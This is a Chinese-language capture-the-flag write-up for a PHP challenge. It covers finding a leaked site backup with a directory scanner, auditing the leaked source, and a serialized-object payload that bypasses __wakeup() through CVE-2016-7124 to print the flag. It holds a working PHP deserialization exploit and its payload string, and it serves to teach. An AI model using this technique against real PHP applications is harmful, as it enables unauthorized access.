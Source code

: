 # [极客大挑战 2019]PHP
TAG:PHP 备份文件泄露  
## 解题过程  
![20201231160443](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201231160443.png)  
根据页面提示存在网站备份文件，使用目录扫描工具获得文件名称（线程过高会使容器无应答）  
![20201231160754](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201231160754.png)  
备份文件内含网站源代码，进行源码审计  
![20201231161104](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201231161104.png)
```index.php```  
```
<!DOCTYPE html>
<head>
  <meta charset="UTF-8">
  <title>I have a cat!</title>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/meyer-reset/2.0/reset.min.css">
      <link rel="stylesheet" href="style.css">
</head>
<style>
    #login{   
        position: absolute;   
        top: 50%;   
        left:50%;   
        margin: -150px 0 0 -150px;   
        width: 300px;   
        height: 300px;   
    }   
    h4{   
        font-size: 2em;   
        margin: 0.67em 0;   
    }
</style>
<body>







<div id="world">
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 85%;left: 440px;font-family:KaiTi;">因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 80%;left: 700px;font-family:KaiTi;">不愧是我！！！
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 70%;left: 640px;font-family:KaiTi;">
    <?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
    </div>
    <div style="position: absolute;bottom: 5%;width: 99%;"><p align="center" style="font:italic 15px Georgia,serif;color:white;"> Syclover @ cl4y</p></div>
</div>
<script src='http://cdnjs.cloudflare.com/ajax/libs/three.js/r70/three.min.js'></script>
<script src='http://cdnjs.cloudflare.com/ajax/libs/gsap/1.16.1/TweenMax.min.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/OrbitControls.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/Cat.js'></script>
<script  src="index.js"></script>
</body>
</html>

```
```class.php```
```
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```
```flag.php```
```
<?php
$flag = 'Syc{dog_dog_dog_dog}';
?>
```
  
通过代码审计可知，```index.php```页面引入了```class.php```并接受一个```sercet```参数,php反秩序化后传递给```class.php```处理  
通过阅读```class.php```可知需要构造传输```username=admin password=100```的秩化参数获得Flag  
可以通过以下PHP代码获得秩序化结果
```
<?php
class Name
{
    private $username = 'admin';
    private $password = '100';
}
$a = new Name();
echo serialize($a);
?>
```
获得秩序化结果：  
```O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}```
直接获得的结果是不能使用的，需要将"Name"后的数字修改为3绕过```__wakeup()```函数，并在私有变量username与password，私有类Nmae前加上```%00```  
最终结果为：  
```Payload:O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}```  
![20201231171920](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201231171920.png)
## 题目分析  
典型的备份文件泄露与PHP反秩序化题目  
许多管理员都会将网站备份放在网站根目录下，只要获取到备份文件就可以根据备份文件进行源码审计，发现页面上难以发现的参数与漏洞，推荐使用目录扫描工具（例如dirmap）进行目录扫描，寻找隐藏的页面与备份文件  
  
针对```class.php```文件进行源码分析可知，想要获取Flag必须向页面传递```username=admin password=100```的秩序化参数，并需要绕过[```__wakeup()```](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup)函数  

通过利用[CVE-2016-7124(PHP反秩序化漏洞)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7124)来实现```__wakeup()```函数的绕过  


























